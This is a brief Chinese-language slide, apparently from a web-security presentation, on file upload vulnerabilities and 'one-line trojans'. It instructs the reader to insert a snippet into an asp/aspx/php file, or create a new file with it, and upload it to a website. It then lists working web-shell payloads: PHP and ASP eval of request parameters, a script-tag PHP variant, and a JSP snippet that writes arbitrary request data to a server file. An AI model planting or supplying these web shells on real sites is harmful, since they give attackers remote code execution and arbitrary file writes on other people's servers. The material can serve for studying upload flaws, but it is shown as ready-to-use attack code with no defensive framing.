

文件上传漏洞——一句话木马
将“一句话”插入到网站上的某个asp/aspx/php文件上，或者直接创建一个新的文件，在里面写入这些语句，然后把文件上传到网站上即可。
#php
<?php @eval($_POST['attack']) ?>

#asp
<%eval request ("pass")%>
<script language="php">@eval($_POST['qiyue']);</script>

#jsp
<%
if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());
%>